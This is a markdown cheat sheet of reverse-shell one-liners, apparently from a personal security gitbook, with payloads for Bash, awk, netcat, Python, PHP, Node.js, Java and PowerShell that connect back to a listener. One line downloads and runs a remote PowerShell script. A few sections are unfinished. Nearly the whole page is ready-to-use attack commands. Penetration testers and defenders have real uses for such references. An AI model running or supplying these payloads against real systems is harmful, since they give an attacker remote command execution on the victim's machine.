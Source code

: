 # One-liner Reverse Shell

## Necessary Steps After reverse shell

* We need to get tty shell first.
  * `python -c 'import pty; pty.spawn("/bin/bash");'`
  * d

## How to solve the problem of multiple quotes in a single command while designing a payload?

* 
## UDP Reverse shells

#### Bash UDP

```text
Victim:
sh -i >& /dev/udp/127.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

## Bash/Linux

* shell script : `/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'`
* Awk : `awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`
* Ncat :
  *  `ncat 127.0.0.1 4444 -e /bin/bash` 
  * `ncat --udp 127.0.0.1 4444 -e /bin/bash`
* Python : 
  * `/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
  * `/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("",));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
* Netcat :
  * `nc -e /bin/bash 10.0.0.1 1234`
  * `nc -c /bin/sh 10.0.0.1 1234`

## PHP

* `<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'");?>`
* `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");`

## Javascript

```text
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(5500, '192.168.60.124');
```

## Powershell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Windows Reverse shell using powershell

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](../../.gitbook/assets/image%20%2815%29.png)

Ref : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Cyber security -&gt; Security bits -&gt; Reverse shells

